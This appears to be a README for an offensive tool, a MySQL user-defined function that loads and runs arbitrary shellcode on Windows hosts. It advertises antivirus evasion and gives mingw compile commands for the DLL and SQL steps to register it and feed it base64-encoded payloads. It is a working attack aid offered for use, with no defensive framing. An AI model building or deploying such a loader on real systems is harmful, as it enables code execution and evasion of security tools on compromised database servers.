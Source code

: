 # MySQL_UDF_ShellcodeLoader

MySQL UDF for load shellcode

Only support Windows, bypass some antivirus :)

## How to compile

### Ubuntu 18.04

```
apt install mingw-w64
apt install libmysqlclient-dev

x86_64-w64-mingw32-gcc scloader.c -o x64.dll -I/usr/include/mysql -shared #for 64 bit
```

## How to use

```
create function scloader returns string soname 'x64.dll';

cat payload.bin | base64
select scloader($base64_shellcode);
```

If load success, the function return 'ok'
